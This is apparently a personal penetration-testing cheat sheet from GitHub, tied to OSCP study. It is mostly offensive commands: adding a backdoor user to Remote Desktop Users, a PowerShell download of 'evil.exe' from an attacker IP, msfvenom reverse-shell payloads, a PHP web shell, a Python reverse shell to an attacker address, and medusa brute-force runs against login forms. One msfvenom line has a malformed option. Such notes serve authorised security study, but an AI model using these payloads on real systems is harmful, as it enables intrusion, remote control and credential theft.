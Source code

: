 # Cybersecurity Cheatsheats
Collection of cybersecurity notes and cheat sheets.  If I pulled content from some else’s cheat sheet or site it will be listed reference section.

## User and group managment

Windows
```shell
net user bob bob123 /ADD
net localgroup "Remote Desktop Users" bob /ADD
net localgroup "Users" bob /ADD
```
## Starting services
linux
```shell
systemctl start ssh
systemctl start apache2
service apache2 start
```

## Enable/Disable service to start on boot
linux
```shell
systemctl enable apache2
systemctl disable apache2
```
## Download files

Powershell
```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://[your_ip_address]/evil.exe','evil.exe')
```

## msfvenom examples
```shell
msfvenom -p windows/shell_reverse_tcp  HOST=[your_ip_address] LPORT=[Port] -f asp > shell.asp
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx
```

## shells

```php
<<?php echo shell_exec($_GET['cmd']);?>
```

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP Address>",443))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)p=subprocess.call(["/bin/sh","-i"])
```

medusa example
```shell
medusa \
  -h [target_ip] \
  -u offsec \
  -P nmap.lst \
  -M web-form \
  -m FORM:"login.php" \
  -m DENY-SIGNAL:"Wrong Username or Password" \
  -m FORM-DATA:"post?user=&pass=&Login=Login"


  medusa \
-h [target_ip]\
-u admin \
-P /data/dict/dict.txt \
-M web-form \
-m FORM:"admin/test.php" \
-m DENY-SIGNAL:"ACCESS DENIED" \
-m FORM-DATA:"post?u=&p=&Login=Login"
```


## References
* http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?redirect
* http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* http://pentestmonkey.net/tools/audit/unix-privesc-check
* http://pentestmonkey.net/tools/web-shells/php-reverse-shell
* http://resources.infosecinstitute.com/privilege-escalation-linux-live-examples/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-enumerating-services-part-2/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-sqli-xss-web-app-attacks-part-5/
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-local-root-exploits-part-ii.html
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackmag.com/security/reach-the-root/
* https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
* https://highon.coffee/blog/tr0ll-1-walkthrough/
* https://jordanpotti.com/oscp/
* https://jordanpotti.com/oscp/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://security.stackexchange.com/questions/68442/escalating-from-apache-shell-to-root

